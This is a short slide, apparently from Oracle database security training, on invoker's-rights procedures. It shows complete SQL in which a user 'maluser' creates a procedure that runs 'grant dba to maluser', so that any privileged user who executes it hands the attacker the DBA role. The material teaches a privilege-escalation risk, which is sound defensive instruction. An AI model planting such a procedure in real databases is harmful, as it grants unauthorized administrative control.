

# Creating and using invoker's right procedures
Connect as the user maluser and create the following "malicious" procedure with the purpose of granting him the DBA role:
SQL> connect maluser/oracle1
create or replace procedure mal_proc
       authid current_user
       as
       begin
          execute immediate 'grant dba to maluser';
      end;
      /
142